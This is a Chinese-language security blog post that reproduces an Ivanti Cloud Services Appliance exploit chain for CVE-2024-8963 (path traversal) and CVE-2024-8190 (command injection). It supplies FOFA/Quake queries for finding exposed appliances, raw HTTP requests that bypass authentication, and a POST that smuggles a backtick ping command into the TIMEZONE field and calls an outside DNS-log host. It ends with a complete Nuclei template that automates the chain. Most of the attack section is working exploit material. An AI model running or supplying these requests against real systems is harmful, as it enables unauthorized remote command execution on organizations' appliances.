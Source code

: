 #  【漏洞复现】CVE-2024-8963、CVE-2024-8190   
原创 混子Hacker  混子Hacker   2024-12-17 09:56  
  
****  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不承担任何法律及连带责任。  
  
  
[   
漏洞简介   
]  
  
——    
咱得静悄悄的干，输了呢就当没干过  
 【  
摘自-雷军  
】 ——  
  
Ivanti Cloud Service Appliance  
  
Ivanti Cloud Service Appliance  
是一种集成的管理平台，主要用于支持IT服务管理和云服务的自动化，它旨在帮助企业简化和自动化IT流程，提高运营效率。该平台在Ivanti Cloud Services Appliance (CSA) 4.6 < Patch 519中存在CVE-2024-8963路径遍历和CVE-2024-8190命令执行漏洞  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94CpbTbbU5vwC9nfZnY3mRc7XLcN4yRibKuGSoTFL2JTSP3WAsSQd9BseWQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
漏洞信息  
  
  
**混子Hacker**  
  
**01**  
  
资产测绘  
  
```
fofa: app="Ivanti(R)-Cloud-Services-Appliance"
Quake：app: "Ivanti Endpoint Manager (EPM)"

# 风里雨里，我都在quake等你。个人中心输入邀请码“lnBNF0”你我均可获得5,000长效积分哦，地址 quake.360.net
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94CposzvPWn6iaUEfmwZ5gGuowH3bHicib8sibI6GGJxPibwPNqyuaAY2F5ezgg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94Cp7Nu6ENAkXFNpiacaLlsOEBia23xAf6UibvNblvyJdDvreacK1LeG2rFgQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
**混子Hacker**********  
  
**02**  
  
漏洞复现  
  
  
```
GET /client/index.php%3F.php/gsb/users.php HTTP/1.1
Host: xxx
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Cookie: LDCSASESSID=kt57k50mb3m48giosk8pikfpk5
```  
  
CVE-2024-8963路径遍历  
  
绕过权限校验访问后台获取敏感数据  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94CpIGf53ibuIPTKMqcHk2Zu9A22xk9uT7s5j2RnH5DT1nb4cwW7gu400Lw/640?wx_fmt=png&from=appmsg "")  
  
  
CVE-2024-8190命令执行  
  
首先利用前面的CVE-2024-8963获取LDCSA_CSRF和cookie值  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94CpnHmHgFchMoLUQyE86Eh5T1FEFWcRq6DsDuovGDaKbn7dL1bpJz1CUA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94CpQkfFcic5G9ZNFpSFYwGzpgRbiaHpwFJib5ZSrAxoJzzWvaehQaWAiaHBjg/640?wx_fmt=png&from=appmsg "")  
  
带上cookie和LDCSA_CSRF再利用CVE-2024-8963访问  
/gsb/datetime.php执行命令  
```
POST /client/index.php%3F.php/gsb/datetime.php HTTP/1.1
Host: xxx
Connection: keep-alive
Content-Length: 211
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="131", "Chromium";v="131", "Not_A Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Origin: null
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
Cookie: LDCSASESSID=f1o2t0t15fi2cdb7pautdgtin2

dateTimeFormSubmitted=1&LDCSA_CSRF=sid:eb6f7c1771acf1f001d1b78059e0e048bbcd2122,1734425798&CMONTH=12&CDAY=17&CYEAR=2024&CHOUR=16&CMIN=30&TIMEZONE=;`ping -c2 -w2 thomas.504c79ddf1.ipv6.1433.eu.org`;&SUBMIT_TIME=Save
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94CpWN6XicLlxvU9icBo8p1cMJ8eVxJvtib7SQE7r945MIUemXrVrWBZIBzCA/640?wx_fmt=png&from=appmsg "")  
  
dnslog平台收到响应  
  
![](https://mmbiz.qpic.cn/mmbiz_png/a5FBLichkAGveozOX5vUgg6mrDSLJ94Cpn2MQG9RT9vGOUDcqduavnkvZkjO9uicJKbnJh7PJl9u52MxMxtxv0Hg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**混子Hacker**********  
  
**03**  
  
Nuclei Poc  
  
  
```
id: CVE-2024-8963_8190

info:
  name: CVE-2024-8963_8190
  author: Thomas
  severity: high
  description: Ivanti Cloud Service Appliance Path Traversal AND RCE
  tags: Ivanti
  metadata:
    fofa-query: app="Ivanti(R)-Cloud-Services-Appliance"
    
requests:
  - raw:
      - |
        GET /client/index.php%3F.php/gsb/users.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
      
      - |
        POST /client/index.php%3F.php/gsb/datetime.php HTTP/1.1
        Host: {{Hostname}}
        Origin: null
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Cookie: {{cookie}}
        
        dateTimeFormSubmitted=1&LDCSA_CSRF={{LDCSA_CSRF}}&CMONTH=12&CDAY=17&CYEAR=2024&CHOUR=16&CMIN=30&TIMEZONE=;`ping -c2 -w2 yourdnslog`;&SUBMIT_TIME=Save
    
    matchers-condition: and
    extractors:
      - type: regex
        name: cookie
        part: header
        group: 1
        internal: true
        regex:
          - "Set-Cookie:(.*?);"
          
      - type: regex
        name: LDCSA_CSRF
        part: body
        internal: true
        group: 1
        regex:
          - 'name=''LDCSA_CSRF'' value="(.*?)"'
          
    matchers:
      - type: status
        status:
          - 200
```  
  
  
  
<<<    
END   
>>>  
  
  
  
原创文章｜转载请附上原文出处链接  
  
更多漏洞｜关注作者查看  
  
作者｜混子Hacker  
  
